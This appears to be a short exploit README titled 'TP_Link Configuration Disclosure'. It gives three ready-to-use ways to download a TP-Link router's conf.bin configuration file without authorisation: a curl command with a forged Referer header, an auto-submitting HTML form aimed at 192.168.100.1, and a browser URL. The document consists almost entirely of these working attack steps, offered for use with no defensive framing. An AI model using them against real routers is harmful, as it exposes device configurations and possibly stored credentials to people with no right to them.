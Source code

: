 # TP_Link Configuration Disclosure

## 1. using curl
`curl http://<Router ip>/cgi/conf.bin -H 'referer: http://<Router ip>' > conf.bin`
## 2. using html:
```
<form id="autosubmit" action="http://192.168.100.1/cgi/conf.bin" method="GET">
   <input type="hidden" name="referer" value="http://192.168.100.1">
   <input type="submit" value="Submit Request" />
</form>

<script>
 document.getElementById("autosubmit").submit();
</script>
```

## 3. Using Browser:
`http://<Router ip>/cgi/conf.bin?referer=http://<Router ip>/`


# Not all router has same config path

